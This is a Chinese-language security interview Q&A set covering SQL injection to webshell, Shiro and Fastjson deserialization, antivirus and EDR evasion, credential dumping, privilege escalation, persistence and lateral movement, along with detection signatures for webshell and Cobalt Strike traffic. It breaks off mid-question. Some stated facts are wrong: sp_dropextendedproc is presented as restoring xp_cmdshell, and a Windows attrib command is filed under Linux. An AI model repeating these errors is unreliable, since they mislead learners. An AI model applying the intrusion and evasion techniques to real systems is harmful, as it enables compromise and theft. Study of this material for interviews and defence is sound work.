- updatexml()
- extractvalue()
- floor()
- exp()

等等...

备注：1和2两个函数，属于XPATH报错注入

# 延时注入如何来判断？

如果页面在加载转动，说明存在延时注入

# 盲注和延时注入的共同点？

都是一个字符一个字符判断

# 打点一般会用什么漏洞？

优先以java反序列化这些漏洞像shiro，fastjson，weblogic，用友oa等等进行打点，随后再找其他脆弱性易打进去的点。

因为javaweb程序运行都是以高权限有限运行，只有少部分可能会降权。

平常怎么去发现shiro漏洞的？

登陆失败时候会返回rememberMe=deleteMe字段或者使用shiroScan被动扫描去发现

**完整：**

未登陆的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie里也没有deleteMe字段

登陆失败的话，不管勾选RememberMe字段没有，返回包都会有rememberMe=deleteMe字段

不勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有rememberMe字段

勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段，还会有rememberMe字段，之后的所有请求中Cookie都会有rememberMe字段

# 什么是shiro反序列化？

由于shiro框架提供了RememberMe功能，服务器会接受cookie中的RememberMe内容进行base64解码，然后aes解码，然后反序列化。1.2.4之前版本AES密钥硬编码在代码里，可以枚举，所以可以构造恶意payload给服务器解密从而执行

721需要先登陆再去爆破key，因为key是随机生成的，没有写死

# shiro反序列化有几种漏洞类型？

shiro 550

shiro 721

shiro 550 721 什么区别？

加密不同，550 DES算法的一种变体，721 是AES算法的一种变体，相比之下721更安全

漏洞利用不同，550不需要登陆，利用已知密钥碰撞即可，721需要先登陆，然后去爆破

扩展全：

漏洞利用主要区别在于Shiro550使用已知密钥碰撞，只要有足够密钥库（条件较低），不需要Remember Cookie

Shiro721的ase加密的key基本猜不到，系统随机生成，可使用登录后rememberMe去爆破正确的key值，即利用有效的RememberMe Cookie作为Padding Oracle Attack的前缀，然后精心构造 RememberMe Cookie 值来实现反序列化漏洞攻击，难度高

# linux的日志存放在哪个目录下？

Linux 的日志文件通常存储在 /var/log 目录下，这是一个系统和应用程序日志文件的默认存储位置。不同的日志类型存储在不同的子目录下，以下是一些常见的子目录和对应的日志类型：/var/log/messages：系统日志，包含了操作系统的各种信息、警告和错误等。/var/log/auth.log：安全认证日志，记录系统的用户登录、认证、授权等信息。/var/log/syslog：系统日志的一个备份文件。/var/log/kern.log：内核日志，记录内核级别的信息，例如硬件故障等。/var/log/dmesg：内核环缓存，包含启动信息、硬件检测和驱动程序的信息等。/var/log/cron：定时任务日志，记录定时任务执行的情况。/var/log/maillog：邮件日志，包含了邮件服务器的日志信息。

# windows事件ID一般是多少？

Windows事件ID是用来标识不同事件类型的数字代码。不同类型的事件有不同的事件ID，通常情况下，Windows系统的事件ID是在100到999之间的整数。例如，系统启动时的事件ID为100，关机时的事件ID为200，应用程序错误的事件ID通常在1000以上，4624登陆成功，4625登录失败。

需要注意的是，不同版本的Windows操作系统可能会有不同的事件ID编号范围和对应的事件类型，因此在查看和分析Windows日志时，需要根据具体情况进行理解和处理。

应急响应如何查看进程、端口、服务？

Linux：ps、netstat、chkconfig

Windows：XueTr、火绒剑、冰刃

# SQL注入如何防御？

- 代码层面：参数过滤、php的话可以pdo预处理连接数据库
- 网络层面：waf设备、云端防护
- 现在好多开发已经是参数查询

对方设置了字符转义的防护（开启了魔术符号），怎么办？

宽字节注入：%df、%af、%cf、%fe、%81

但是需要编码方式为：GB2312，GBK，GB18030，BIG5，Shift\_JIS等等

# sql注入写一个webshell怎么操作？

**mysql：** 通常可以通过phpmyadmin来实现，前提条件：知道绝对路径；目录有读写的权限，secure\_file\_priv参数设置为空（ini配置文件里改）

**扩展：**

secure\_file\_priv的值为null ，表示限制mysqld 不允许导入|导出

当secure\_file\_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

当secure\_file\_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

**mssql：** sa权限通过恢复扩展存储xp\_cmdshell（mssql 2000默认开启）（穿山甲）；db\_owner权限的话通过差异备份

**综合：** sqlmap自动化工具

sqlmap参数，post怎么测试？

sqlmap -r post.txt

注入点在cookie头里边怎么使用sqlmap测试？

\--level 2

> \=2的时候会检查cookie里面的参数；

> \=3的时候会检查User-agent和Referer

sqlmap的--os-shell原理是什么？

mysql是写入两个webshell。一个提供上传功能，另一个就是命令执行的。退出时会删除webshell（条件：secure\_file\_priv支持web目录文件导出、数据库用户File权限、获取物理路径）

mssql就不需要上传东西了，主要是利用xp\_cmdshell扩展进行命令执行（条件：数据库支持外连、数据库权限为SA权限）

# Fastjson如何防御？

使用Fastjson的黑名单功能：Fastjson提供了一个黑名单功能，可以用于禁止某些Java类的序列化和反序列化，可以通过设置一些敏感类的黑名单，禁止序列化和反序列化这些类，从而避免一些恶意攻击。

对Fastjson进行安全加固：对Fastjson进行安全加固，可以避免恶意攻击。可以通过开启自动类型识别检查、限制反序列化对象的深度、限制反序列化对象的大小等措施，提高Fastjson的安全性。

使用其他JSON处理器：如果对Fastjson存在疑虑或者担心其安全性问题，也可以考虑使用其他JSON处理器，比如Jackson、Gson等。这些处理器同样具有高性能和易用性，并且也可以进行安全加固。

如何判断Fastjson漏洞？

判断：

正常请求是get请求并且没有请求体，可以通过构造错误的POST请求，即可查看在返回包中是否有fastjson这个字符串来判断。或者没有回显的话配合dnslog

原理：

fastjson是阿里巴巴开发的一款将json字符串和java对象进行序列化和反序列化的开源json解析库。

fastjson提供了autotype功能，在请求过程中，我们可以在请求包中通过修改@type的值，来反序列化为指定的类型，而fastjson在反序列化过程中会设置和获取类中的属性，

如果类中存在恶意方法，就会导致代码执行等这类问题

# fastjson不出网怎么打？

不出网就利用不了JNDI了，有条链BCEL可以 ClassLoader代码执行、C3P0二次反序列化、common-io写文件

fastjson无回显怎么办？

- 一种是直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过http访问就可以直接看到结果
- 通过dnslog进行数据外带，但如果无法执行dns请求就无法验证了
- 直接将命令执行结果回显到请求Poc的HTTP响应中

weblogic有几种漏洞？

基于T3协议的反序列化；基于xml解析时候造成的反序列化，还有ssrf，权限绕过等

# 使用了域前置怎么溯源？

- 根据样本中获取到HTTP Hosts与HTTP Hosts Header，发请求包获取C2的Banner信息。
- 根据Banner信息Zoomeye、Fofa、Shodan等平台搜索，通过时间、地区等条件初步筛选，得到一个IP列表。
- 根据样本中特有的通信特征，向IP列表发包，根据返回确定是不是要找的回源IP。

# 内存马怎么查杀？

如果发现了一些内存webshell的痕迹，需要有一个排查的思路来进行跟踪和分析，也是根据各类型的原理，列出一个排查思路

- 如果是jsp注入，日志中排查可以jsp的访问请求。
- 如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法。
- 根据业务使用的组件排查可能存在的java代码执行漏洞，spring的controller了类型的话根据上报webshell的url查找日志，filter或者listener类型，可能会有较多的404但是带有参数的请求。

**杀马：**

**终止进程：** 如果确认某个进程是内存马，可以尝试终止该进程。在Windows系统中，可以通过任务管理器或者命令行工具taskkill来终止进程；在Linux系统中，可以通过命令行工具kill或者pkill来终止进程。

**删除文件：** 如果进程终止后，还需要删除相关的文件，以防止内存马重新启动。在Windows系统中，可以直接删除相关文件；在Linux系统中，需要先终止进程，然后再删除文件。

# sqlserver怎么获取os-shell的？

xp\_cmdshell恢复扩展存储

# 如何判断一个sqlserver的注入能否执行系统命令？

判断一下xp\_cmdshell存储过程是否存在：

and 1=(Select count( \*) FROM master. dbo.sysobjects  Where name = 'xp\_cmdshell')

如果扩展存储被删除，可执行如下查询进行恢复

;exec sp\_dropextendedproc 'xp\_cmdshell'

# 请说出mysql5.0以下与5.0以上的区别？

Mysql 5.0 以上版本有information\_schema表，记录了所有的库和表还有字段

5.0以下没有这个表，要暴力猜解

# 一般怎么拿webshell？

文件上传 命令执行  注入 反序列化 中间件 系统漏洞 XSS（不好拿，但是也可以）

# 就某一个你擅长的漏洞，深刻讲讲里面的原理？怎么挖掘？怎么验证？

**这里随意，自己能说明白均可**

- 曾经发现一个任意密码找回的逻辑漏洞，发送验证码在Burp里抓响应包false改为true即可通过验证，这时候我们填任意验证码即可重置任意用户的密码
- 通过Burp抓包手工挖掘
- 自己注册一个账户，任意验证码可修改密码即可证明

# IIOP听说过吗？

java RMI通信，也就是远程方法调用，默认是使用jrmp协议，也可以选择IIOP

# RMI是什么，有什么用？

用于不同Java虚拟机之间的通信

RMI就是一台机器想要去执行另一台机器上的java代码。然后两台机器一台服务端一台客户端嘛，服务端绑定一个远程对象，可以封装一些网络socket操作，然后绑定端口信息给注册中心1099，客户端去访问注册中心，获取绑定信息，然后获取调用

不同的对象不一定绑定哪个端口，端口是动态的，需要一个注册中心来记录

扩展：RMI默认使用的JRMP进行传递数据,并且JRMP协议只能作用于RMI协议。当然RMI支持的协议除了JRMP还有IIOP协议，而在Weblogic里面的T3协议其实也是基于RMI去进行实现的

# RMI的相关漏洞有没有接触过？

反序列化：

RMI的通信过程中，默认使用序列化来完成所有的交互，如果该服务器Java RMI端口（默认端口1099）对公网开放，且使用了存在漏洞的Apache Commons Collections版本，就可以在该服务器上执行相关命令

RCE：

允许从远程URL中加载类

# shiro漏洞不出网情况下怎么办？

- 延时判断，类似于时间盲注
- 直接静态资源注入回显，判断漏洞存在
- 不出网可以直接写webshell，通过冰蝎链接，或者写内存马。

# 溯源会用些什么工具或者在线网站，都可以说说常用的服务和对应的端口？

Wireshark和一些windows进程监视、日志分析、以及webshell查杀的工具

微步、360、奇安信等一些威胁情报平台，查到之后反渗透，拿到信息后社工一波

oracle 1521、Docker 2375、weblogic 7001、redis 6379等

几万条告警，怎么快速找到攻击成功的告警,哪些是误报？

一般都是大批量扫描造成的。

首先排除无效告警，没有的资产先排除掉，比如告警thinkphp payload，但是我们都没有使用这个框架

其次根据返回状态和信息再排除一部分误报警告，有些没有成功利用的  也报了出来

# struts2原理特征？

默认的content-type解析器会把用户传来的数据直接当成代码执行，造成rce

特征:ognl表达式，memberaccess字段，可以通过catalina日志过滤关键信息查找攻击特征

ongl表达式可以被当作代码执行，其中的类为defaultactionmapper支持的redirecraction方法

# Java反序列化的特征？

一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据。

或者如果以 aced 开头，那么他就是这一段 java 序列化的 16 进制。

# 如何反制CS？

反制Server，爆破密码：针对后门没有采用隐匿C2地址的技术导致的反制（后门样本被溯源到C2地址，可以对红队IP进行溯源）

伪造流量批量上线（欺骗防御，无法反制，但是会让红队摸不着头脑）

CS漏洞CVE-2022-39197（基本通杀，CS版本<=4.7 XSS）

# 溯源反制常见思路？

蜜罐；

xss盲打；

蚁剑rce；

cs端口爆破口令；

有web可以进行反打。

# EDR如何绕过？

改协议绕过；

污染数据；

ddos通过hook协议并发提交。

# 说一下常见红队工具流量的特征？

冰蝎2.0 强特征是accept里面有个q=.2

冰蝎3.0 Content-Type: application/octet-stream

冰蝎4.0 referer头（js文件）；

UA头（随机）；

Accept: application/json, text/javascript, /; g=0.01；

在建立连接时，可能会导致49000左右的端口号开启

蚁剑：是ua有answord    蚁剑的加密特征是以 "0x.....="开头

哥斯拉：pass字段

菜刀：流量存在一些特征字 eval  base64

AWVS：主要是看请求包中是否含有acunetix  wvs 字段

Nessus：nessus字段

# shellcode怎么做免杀？

异或、RC4、UUID、AES 总之各种编码再解码

# shellcodeloader怎么做免杀？

python编码、换不常用API比如枚举EnumFontsW

# 怎么隐藏IAT？

常规就是LoadLibrary加载dll，然后根据函数名字去GetProcAddress

但是这两个API也是被杀的很多了

可以用线程的TEB结构实现，其中PEB\_LDR\_DATA有3个双向链表

- 先找到PEB模块基址
- 再从PEB中找到 PEB\_LDR\_DATA 结构 
- 定位双向链 InInitializationOrderModuleList 
- 获得DLL的基地址

# 拿到webshell不出网情况下怎么办？

reg上传去正向连接。探测出网协议，如dns，icmp

# dns出网协议怎么利用？

将域名解析指向自己的vps，然后设置ns记录等

# 横向渗透命令执行手段？

psexec，wmic，smbexec，winrm，net use共享+计划任务+type命令

# psexec和wmic或者其他的区别？

psexec会记录大量日志，wmic不会记录下日志。wmic更为隐蔽

# Dcom怎么操作？

通过powershell执行一些命令，但是2.0好像不行，命令语句比较复杂

# 抓取密码的话会怎么抓？

procdump+mimikatz 转储然后用mimikatz离线读取

Sam 获取然后离线读取

# mimikatz什么版本之后抓不到密码？

最高能抓2008的

# 讲一下常见提权思路？

- **系统提权**

windows：systeminfo查看补丁信息，然后去github找exp提权，例如2003和xp的pr提权，2003的巴西烤肉提权；CS中提权MS14-068，MS16-016

Linux：cat /etc/ \*-release 查看版本信息 然后通过github、seebug、百度等查找。例如脏牛提权Linux内核版本>=2.6.22（2007年发行），通过nc反弹shell

- **数据库提权**

mysql：udf提权（自身功能提权、用提权工具）、mof（漏洞提权）、写入启动项

mssql:   一般用弱口令、恢复扩展存储cmdshell

Oracle: Oracle数据库一般与jsp、aspx网站搭配，如果是jsp网站，默认是系统权限，apsx网站默认需要提权，通过创建java提权函数

access：用的较少，网上方法也不多。access一般用于学校等流量少的小型网站，这种提权容易造成数据库崩掉

- **第三方应用提权**

Gene6（传文件）：配置文件获取账密，只能本地登录，所以lcx.exe转发端口

VNC（软控）：注册表获取（cmd或者大马），然后用工具解密

Radmin（软控）：注册表获取（cmd或者大马），然后再使用Radmin哈希版本连接即可

DLL劫持（LPK）：劫持任意软件，一般来说只要放到有网络行为的程序目录下就可以。最好是有自升级功能的，例如杀毒软件，输入法等，输入法目录一般权限较低，比较好利用

通过数据库提权的方法？

- **mysql：**

①udf提权，UDF（user defined function）用户自定义函数，是mysql的一个拓展接口。用户可以通过自定义函数实现在mysql中无法方便实现的功能，其添加的新函数都可以在sql语句中调用

sqlmap中有udf.dll，也有解密它的工具。相当于加了一些我们可以再SQL中调用的函数

②mof提权，mof 提权的原理其实很简单，就是利用了c:/windows/system32/wbem/mof/目录下的 nullevt.mof 文件，每分钟都会在一个特定的时间去执行一次的特性，来写入我们的cmd命令使其被带入执行

- **mssql：** 弱口令爆破出sa账号密码，然后cmdshell命令添加管理员账户提权，或者OLE相关存储同样能执行命令提权；溢出提权不常见。

# 权限维持有哪些方法？

- linux隐藏文件

attrib +s +h test.php  隐藏test.php文件

attrib命令 用于修改文件属性

+s 设置系统文件属性

+h 设置隐藏属性

- windows影子账户（账户名后加个\$）、shift后门（DLL劫持替换放大镜服务）

XSS和CSRF和XXE和SSRF有什么区别，以及修复方式？

- **XSS**是跨站脚本攻击，分为存储型和反射型，指攻击者在网页中嵌入客户端脚本，通常是JavaScript编写的危险代码，当用户使用浏览器浏览网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的。一般通过XSS拿cookies

修复方式：对输入进行过滤 对输出进行编码（但是这个地方注意，编码不     一定可行，因为输出的方式可能是html、js、也有可能是纯文本。多套代     码 专一编码倒是可以）；使用HTTP Only来禁止JavaScript读取Cookie     值、内容安全策略CSP

- **CSRF**是跨站请求伪造，攻击者盗用了受害者的身份，以用户的名义来发送恶意请求，是客户端发起的，服务器没有确认是否由用户自愿发起。XSS是实现CSRF的诸多手段中的一种。

修复方式：嵌入Token值验证、验证HTTP Referer字段、再次输入密码或     验证码

- **XXE**是外部实体注入攻击，服务器的XML解析器可以通过XML实体，从本地文件或者远程URL中获取数据。攻击者利用XML实体传递自己的恶意代码进行攻击

修复方式：升级版本、过滤用户提交的XML数据、XML解析库在调用时严     格禁止对外部实体的解析（需要代码层面改动）。（现在都是JSON传输       数据了，XML传输很少见了）

- **SSRF**是服务器端请求伪造，攻击者构造语句，利用服务器的过滤限制不严格发起请求，是服务器发起的，一般利用SSRF来攻击目标网站的内网

修复方式：白名单过滤，返回内容鉴别

# 杀软对内存检查是什么策略？

0环私有内存，有可执行权限的

# 如何绕过3环的钩子？

- 重载一份ntdll
- 直接进行快速调用

# 什么是SSDT表？

就是0环里的一个函数表

# 360是怎么防御0环的？

添加驱动：进入0环后，去SSDT的过程中hook的。而不是hook的SSDT表所有函数

# 为什么有的时候需要降权？

比如截图用户桌面，需要session0降到session1

# 杀软一般是怎么限制句柄进程的？

一般32为用hook Openprocess，64位都用加驱动降权，摘令牌的方式

# defender的核心进程是哪个，3x0呢？

MsMpEng.exe    360Safe.exe

# xss怎么getshell？

打cookie、flash钓鱼、后台水坑

# XSS限制httponly时，有什么思路？

- 获取网站源码
- 查找phpinfo页
- 框架钓鱼
- 跳转钓鱼，401认证
- 历史密码
- 打进后台然后钓鱼

# sqlsever怎么在xpcmd禁用的情况拿shell？

可以试试差异备份

# java的所有反序列化简单讲一讲？

反序列化首先是为了方便传输，把变量转换成字符串的一种方法。如果用户输入的内容没有过滤，被带入服务器进行了反序列化，通过不同的链导致调用任意类进而执行了恶意方法

# mimikatz抓不到密码的话怎么办？

翻阅文件查找运维等等是否记录密码。或者hash传递、或者获取浏览器的账号密码等等。

# 域内攻击方法有了解过吗？

zerologon、nopac、MS14-068、Roasting攻击离线爆破密码、委派攻击，非约束性委派、基于资源的约束委派、ntlm relay

# 桌面有管理员会话，想要做会话劫持怎么做？

提权到system权限，然后去通过工具，就能够劫持任何处于已登录用户的会话，而无需获得该用户的登录凭证。

# 弹窗函数除了alert还有别的吗？

还有iframe框架钓鱼挂马，confirm、prompt

CSRF、SSRF、重放攻击和中间人攻击有什么区别？

CSRF是跨站请求伪造攻击，由客户端发起；SSRF是服务器端请求伪造，由服务器发起；重放攻击是将截获的数据包进行重放，达到身份认证等目的

- 重放攻击：A给B写了一封信，说：“给我转账100块” B照做了，然后有人（不一定是A)复制了一样的信和签名发给B，骗B再转账100块
- 中间人攻击：A给B写了一封信，说：“给我转账100块吧”有人截获了这封信，把信的内容改为：“给C转账10000块”
- CSRF：A登录自己的转账页面，然后攻击者B发送过来一个钓鱼连接，A点击了，给B转了100块钱
- SSRF：A的URL过滤不严格，攻击者B利用URL可以访问A的内网
- XSS：是实现CSRF的一种方式，窃取用户cookies

# XSS绕过有哪些方式？

大小写双写、编码、注释、利用事件、html标签

XSS、SQL注入、XXE容易出现的地方？

- 查询的地方、留言的地方
- 登录的地方、URL参数
- Burp抓包Content-Type为json（需要改为xml）或者xml，添加payload

SSRF绕过有哪些方式？

- 改变IP地址写法（常用）
- 利用解析URL所出现的问题
- 利用302跳转

# windows内存0环的有哪些属性？

私有内存，自己申请的

映射内存，也就是共享内存，dll就是映射的方式，因为可能会有多个exe同时使用

# 如何挖掘dll劫持？

process进程监控软件，选择not found的（一次执行上线dll，不是维权dll），排除注册表哪些，看它需要加载哪些dll，然后自己写一个弹窗或者计算器的去试，找没有用到导出函数的

# dll劫持如何挖掘维权dll？

process进程监控软件，选择success的，就是可有可无的dll，可能先加载进来，后续才会使用，但是没有它也能程序执行，我们改这种dll，就能做到权限维持

PPL attack有哪些方法？

- mimikatz加载dll
- 改EPROCESS的值

# windows提权方式？

03提权：pr、巴西烤肉、ms16-032   ms18-8120

08提权：烂土豆(ms16-075)、8120、ms15-015/051，服务插马

2012提权和08差不多：ms15-015/051

# 常用中间件漏洞？

IIS解析漏洞、apache解析漏洞、JBoss/weblogic反序列化漏洞

手工注入怎么写shell？

select into outfile/dumpfile

# 如果一个站点使用了CDN，如何进行绕过获取真实ip?

- 如果访问网站的服务器使用了泛域名解析，那么可以随便ping一个二级域名。这样可以获取到真实IP，因为泛域名解析是指非门户网站的所有网站都用真实服务器解析
- 探测子域名IP，可能与主站是同一IP或在一个网段里
- 多地ping、国外ping，原理就是查找没有上CDN的区域
- DNS历史解析，查找之前没上CDN时的记录
- MX记录 邮箱订阅，邮件交换记录，用于将以该域名为结尾的电子邮件指向对应的邮件服务器以进行处理，MX记录可以使用主机名或IP地址
- 网络空间安全引擎搜索，通过关键字或网站域名，就可以找出被收录的IP，很多时候获取到的就是网站的真实IP
- 利用SSL证书寻找真实IP，证书颁发机构(CA)必须将他们发布的每个SSL/TLS证书发布到公共日志中，SSL/TLS证书通常包含域名、子域名和电子邮件地址。因此SSL/TLS证书也可以作为切入点
- 配置不当绕过，例如站点同时支持http和https访问，CDN只配置 https协议，那么这时访问http就可以轻易绕过。再就是通过网站的一些敏感文件，或者phpinfo之类的探针来获取真实ip
- 其它方法，比如把CDN流量打光，或者一些特定场景的特定方法：当服务器使用F5 LTM做负载均衡时，通过对set-cookie关键字的解码真实ip也可被获取。

  Set-Cookie:BIGipServerpool\_8.29\_8030=487098378.24095.0000，先把第一小节的十进制数即487098378取出来，然后将其转为十六进制数1d08880a，接着从后至前，以此取四位数出来，也就是0a.88.08.1d，最后依次把他们转为十进制数10.136.8.29，也就是最后的真实ip

# XXE-xml实体注入的原理？

低版本php（其实是libxml） 通过XML实体  XML解析器可以从本地文件或者远程URL中获取数据  攻击者可以通过XML实体传递自己构造的恶意值

# 如何避免xml实体注入漏洞？

- 过滤用户提交的XML数据
- 升级php版本，但是不是因为php版本影响XXE，而是libxml库，libxml2.9.0以后，默认不解析外部实体,将最新的libxml

# 要发现验证码的问题，会从那些角度去找？

客户端绕过：抓包 直接删掉

服务端绕过：php默认24分钟

验证码识别：爆破

# 举例三种业务逻辑漏洞，以及修复方式？

密码可爆破：增加密码复杂度，8位，字母加数字加特殊符号

验证码客户端绕过：服务端验证验证码，并设定验证码只能用一次

越权访问：增加鉴权机制

# http传输的过程？

1、应用层：首先进行域名解析，浏览器搜索自己的DNS缓存，若没有，则搜索操作系统的DNS缓存，若没有，则操作系统将域名发送至服务器查询，最终获得IP地址

然后浏览器发起HTTP请求

2、传输层，对HTTP请求进行封装，加入了端口号、控制位、紧急指针等信息，TCP传输

3、网络层，ARP请求

4、数据链路层，把网络层交下来的IP数据报添加首部和尾部，封装为MAC帧，现在根据目的mac开始建立TCP连接，三次握手

5、服务器响应请求并请求客户端要的资源，传回给客户端；

6、断开TCP连接，浏览器对页面进行渲染呈现给客户端。

\-------------------------------

简单回答

1、域名解析（DNS解析）

2、发起http请求，建立TCP的3次握手

3、服务器响应请求，返回数据

4、浏览器渲染数据呈现给用户，并断开TCP，四次挥手

扩展

1、三次握手流程的本质，可以这么理解：TCP的三次握手其实是双方各一次握手，各一次确认，只是其中一次握手和确认合并在一起。

2、为什么建立连接是三次握手，而关闭连接却是四次挥手呢？

这是因为服务端在LISTEN状态下，收到建立连接请求的SYN报文后，把ACK和SYN放在一个报文里发送给客户端。

而关闭连接时，当收到对方的FIN报文时，仅仅表示对方不再发送数据了但是还能接收数据，己方也未必全部数据都发送给对方了，所以己方可以立即close，也可以发送一些数据给对方后，再发送FIN报文给对方来表示同意现在关闭连接，因此，己方ACK和FIN一般都会分开发送。

# lsass上了PPL，在不上驱动的情况下，有杀软的环境如何规避？

3环OpenProcess拿不到句柄，只能想办法去0环改结构

# windows最高权限是administrator吗？

不是

# windows最高权限是system吗？

不是

# 为什么在摘取windows defender的令牌代码里，为什么要用winlogon.exe的令牌? 用其他进程的令牌可以吗?

因为需要偷一个系统进程的高权限令牌到我们当前进程，用其它高权限的也可以，比如csrss.exe

32位下inline hook至少需要几个字节？

5个，64位是12个

# 蚁剑的特征？

- 支持自定义加密，但shell不稳定，且对JSP兼容性比较差
- 特征码为data:("display\_errors" AND "set\_time\_limit(0)") 

  例如："@ini\_set("display\_errors", "0");@set\_time\_limit(0);"，base64情况下是"QGluaV9zZXQ"(eval)"，在chr情况下"cHr(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116)"，在rot13的情况下"@vav\_frg”
- agent:"antSword/v2.0或动态UA
- 不同语言的特征：

Php：assert、eval关键词执行

Asp：eval在jsp中使用

Java：同时会带有base64编码解码等字符特征

# 哥斯拉的特征？

- 强特征，链接失败情况下2个流量包，成功为3个流量包
- 第一个请求总会发送大量数据，这是配置信息，且请求包内无cookie，服务器响应包无内容，生成一个session，后续请求会带上此session到请求包中的cookie中，且生成的cookie后面有个分号
- UA可能为jdk版本号，弱特征，可以做为辅助验证
- Accept字段:

  Accept:text/html, image/gif, image/jpeg, *; q=.2, /; q=.2Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/ \*;q=0.8 弱特征，容易去除
- 响应内容中，哥斯拉会把32位的MD5拆分2部分放在base64前后，RAW加密器除外，也可以作为特征之一
- 请求体内容，较强特征，此检测方法较特殊，安全设备误报率较高，因为需要key通信，安全设备无法进行解密，这个需要人为自行判定并溯源至源文件

# 冰蝎的特征？

- 冰蝎1.0和2.0版本中，最明显的特征就是需要密钥协商，发送GET请求获取动态密钥
- 在2.0版本中默认特征Accept为：text/html, image/gif, image/jpeg, \*; q=.2, */*; q=.2，可以作为辅助特征
- 在2.0版本中，UA是随机UA，每次或几次请求后会更换UA，大概是16个左右，UA较老，在Constants.java内的库中，我们对程序进行反编译后可以看到，这些特征都是可以修改
- Connection特征Keep alive，这个可以使用流量抓包工具看到，长连接，避免资源浪费开销大，也和HTTP1.0有关，1.1后貌似就没了
- 2.0的固定特征就是随机请求的三位数，这个是强特征
- 在冰蝎3.0中，UA再次增加，每次或几次请求后会更换UA，可以作为辅助特征
- 辅助弱特征，可以改动:

  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9，以及：Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
- 部分3.0以后的子版本至4.0以后增加了referer参数，末尾文件名随机大小写
- 在冰蝎4.0之后，UA头进行了缩减，弱特征参考意义不大，因为3.0以后可以自定义UA头
- 3.0-4.0之后的默认密码为rebeyond，对应密钥为“e45e329feb5d925b”，该密钥为连接密码32位md5值的前16位
- 冰蝎4.0弱特征，Accept: application/json, text/javascript, */*; q=0.01以及Content-type: Application/x-www-form-urlencoded
- 冰蝎4.0攻击方主机特征每次建立连接端口会递增，活动端口多在49700附近
- 冰蝎4.0请求头：dFAXQV1LORcHRQtLRlwMAhwFTAg/M 响应头：TxcWR1NNExZAD0ZaAWMIPAZjH1BFBFtHThcJSlUXWEd
- 强特征，解密后看到以下字段：

  $post=Decrypt(file_get_contents("php://input"));eval($post);

# CS的流量特征？

- 心跳包默认60秒，默认端口50050，随机或固定的UA根据版本判断，0.0.0.0是DNS beacon默认特征
- 可以根据URL判断，根据初次下载payload的请求，遵循checksum8原则计算，当结果为92或93时，CS无魔改
- 执行命令时，回传会有POST传参，且数据包内有内容，并且以submit.php?id=xxx结尾
- ja3/ja3s特征，在进行https握手通信阶段时，server hello包内会有JA3/JA3S字段，这个和版本、系统、CS版本有关，无法通过文件去修改(profile)
- DNS隧道技术来传输数据，在DNS请求中，域名可能以特定前缀开头（如“cdn.”、“www6.”、“api.”等），查询结果可能包含非常规的IP地址，这些地址用于指令传输或心跳检测
- 对于二开的C2，可提取样本分析

# 相关内存马的特征？

- 哥斯拉和冰蝎的内存马会有webshell相似的特征，重点关注特殊的classloader加载，攻击者经常利用TemplatesImpl和bcel加载内存马，因为内存马是驻留在内存里的，本地无class文件，通过检测Filter对应的ClassLoader目录下是否存在class文件来判断，也可以把内存中所有的Filter的class dump出来，使用工具分析是否存在恶意代码

# SQL注入的分类

```text 
Boolean盲注 
Union注入 
文件读写 
报错注入{ floor报错注入 ExtractValue报错注入 UpdataXml报错注入 } 
时间盲注 
REGEXP正则匹配 
宽字节注入 
堆叠注入 
二次注入 
User-Agent注入 
Cookie注入 
过滤绕过 
万能密码
```


# SQL注入的预防

```markdown 
预编译 PDO 正则表达式过滤
```


# 序列化与反序列化的区别

```markdown 
序列化：把对象转化为可传输的字节序列过程称为序列化。 
反序列化：把字节序列还原为对象的过程称为反序列化。
```


# 数据库有哪些，关系型的和非关系型的分别是哪些

关系型

```text 
MySQL：3306 
SQL Server：1433 
Oracle：1521 
DB2：5000 
MongoDB：27017
```


非关系型

```text 
Redis：6379 
Memcached：11211
```


# PHP代码执行的危险函数

```php 
call_user_func() 
call_user_func_array() 
create_function() 
array_map()
```


# PHP命令执行函数

```php 
system 
shell_exec 
passthru 
exec 
popen 
proc_open 
putenv 
assert
```


# 常见的中间件漏洞

IIS

```markdown 
PUT漏洞、短文件名猜解、远程代码执行、解析漏洞
```


Apache

```markdown 
解析漏洞、目录遍历
```


Nginx

```markdown 
文件解析、目录遍历、CRLF注入、目录穿越
```


Tomcat

```text 
远程代码执行、war后门文件部署
```


JBoss

```text 
反序列化漏洞、war后门文件部署
```


WebLogic

```markdown 
反序列化漏洞
```


Apache Shiro反序列化漏洞

```markdown 
Shiro rememberMe（Shiro-550）
 Shiro Padding Oracle Attack(Shiro-721)

```


# 内网渗透思路

```text 
代理穿透
权限维持
内网信息
收集口令爆破
凭据窃取
社工横行
纵向渗透
拿下域控
```


# Windows提权

```markdown 
提权可分为纵向提权与横向提权：
纵向提权：低权限角色获得高权限角色的权限；
横向提权：获取同级别角色的权限
```


# Windows常用的提权方法

```markdown 
系统内核溢出漏洞提权
数据库提权
错误的系统配置提权
组策略首选项提权
WEB中间件漏洞提权
DLL劫持提权
滥用高危权限令牌提权
第三方软件/服务提权等
```


# Linux提权有哪些方法

```markdown 
Linux内核漏洞提权
低权限用户目录下可被Root权限用户调用的脚本提权（SUID） 
环境变了劫持高权限程序提权 
sudoer配置文件错误提权
```


# 正向代理和反向代理的区别

```markdown 
正向代理，当客户端无法访问外部资源的时候（比如Google、YouTube），可以通过一个正向代理去间接地访问。
正向代理是一个位于客户端和原始服务器(origin server)之间的服务器，为了从原始服务器取得内容，客户端向代理发送一个请求并指定目标(原始服务器)，然后代理向原始服务器转交请求并将获得的内容返回给客户端。反向代理，客户端是无感知代理的存在，以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端。此时代理服务器对外就表现为一个服务器
```


# 正向SHELL和反向SHELL的区别

```markdown 
